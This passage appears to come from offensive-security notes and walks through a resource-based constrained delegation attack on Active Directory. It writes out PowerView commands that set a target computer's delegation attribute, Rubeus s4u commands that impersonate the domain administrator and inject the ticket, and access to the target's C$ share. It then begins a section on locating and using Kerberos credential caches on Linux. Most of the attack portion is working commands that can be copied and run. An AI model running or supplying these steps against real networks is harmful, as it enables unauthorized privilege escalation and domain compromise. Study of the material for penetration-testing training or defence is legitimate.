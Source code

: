 Convert into bytearray:
```
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)
```

```
Get-DomainComputer -Identity <target_domain> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
NOTE: <target_domain> is not the computer you created, but the target of the attack.

Verify  security descriptor:
```
$RBCDbytes = Get-DomainComputer <target_domain> -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
$Descriptor.DiscretionaryAcl
ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-2101
```

Now we can start the attack:
```
.\Rubeus.exe hash /password: <password1_set_before>
.\Rubeus.exe s4u /user:<new_computer_name_set_before>$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
```

To see if it worked and you have the TGT:
```
klist
```

If it worked, you can interact with the services on the target machine:
```
dir \\<target_machine>.<domain>\c$
```
or replace c$ with the service you should have access to.

&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Kerberos on Linux</b></span>
Linux clients can authenticate to Active Directory servers via Kerberos as a Windows machine would.
Active Directory members using Kerberos authentication are assigned a credential cache file to contain their requested Kerberos tickets. The file's location is set through the user's <span style="color:red">KRB5CCNAME</span> environment variable.
To find the user's credential cache file:
```shell
env | grep KRB5CCNAME
```

To request a TGT, we just need to call kinit without parameters and enter the user's AD password:
```shell
kinit
```
To see list of tickets:
```shell
klist
```
